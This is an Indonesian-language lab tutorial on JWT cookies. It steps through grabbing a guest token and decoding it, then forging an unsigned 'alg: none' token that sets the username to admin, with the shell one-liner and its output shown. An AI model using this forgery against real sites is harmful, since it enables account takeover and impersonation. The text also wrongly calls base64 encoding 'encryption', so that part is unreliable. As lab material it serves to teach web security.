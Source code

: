 # JWT Cookies

JWT Cookies terdiri dari 3 bagian 

```shell
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ.C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw
```

- `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9` merupakan header
- `eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjY1MDc2ODM2fQ` merupakan payload
- `C8Z3gJ7wPgVLvEUonaieJWBJBYt5xOph2CpIhlxqdUw` merupakan signature

semua bagian itu di encode oleh base64. kita dapat menggunakan cookies jwt tersebut untuk login sebagai orang lain.

# Practice

login ke `http://<IP target>:8089/` dengan akun username `guest` dan password `guest`. selanjutnya tekan tombol **f12** pada keyboard atau klik kanan lalu pilih `inspect element`. selanjutnya pergi ke tab **storage** dan pilih **Cookies** pada bagian kiri, dan pilih link website login kita saat ini. selanjutnya kita dapat mengambil token tersebut.

token dari guest adalah berikut

```shell
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjk2NDk0NDg1fQ.1biPzfR_gdZgyk-0zIf8DkHh4HeLivwqTKM4xDXwdFc
```

selanjutnya kita ambil 2 encrypted data diawal karena hanya itu yang dibutuhkan lalu decode dengan [Cyberchef](https://cyberchef.org/) atau dengan `base64` di terminal

terminal linux:

```shell
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9" | base64 -d
#result-> {"typ":"JWT","alg":"HS256"}
echo -n "eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNjk2NDk0NDg1fQ" | base64 -d
#result-> {"username":"guest","exp":1696494485}base64: invalid input
```

nah setelah kita tahu hasilnya, kita perlu mengganti value pada `alg` menjadi **none** dan juga value pada `username` menjadi **admin**, untuk cara cepat dalam terminal, dapat menggunakan command berikut

```shell
echo -n "{\"typ\":\"JWT\",\"alg\":\"none\"}" | base64 | tr -d '\n' && echo "." | tr -d '\n' && echo -n "{\"username\":\"admin\",\"exp\":1696494485}" | base64 | tr -d '\n' && echo "." 

#result-> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjk2NDk0NDg1fQ==.
```

- `echo -n` berarti kita menampilkan output dari apapun yang kita inputkan dengan menghilangkan newline yang tidak sengaja ada
- `|` simbol pipe ini dapat berarti OR, namun disini kita bisa mengartikannya "lakukan command berikut pada hasil dari command sebelumnya"
- `base64` merupakan command untuk enkripsi input dari kita
- `tr -d '\n'` merupakan command untuk menghilangkan newline dari output di terminal
- `&&` simbol double ampersand dapat berarti AND, namun disini kita bisa mengartikannya "lakukan command berikut setelah command sebelumnya"

jika sudah, kita dapat menginputkan cookies baru hasil editing ke browser, dan jika berhasil kita dapat menjadi user apapun yang kita masukkan sebelumnya.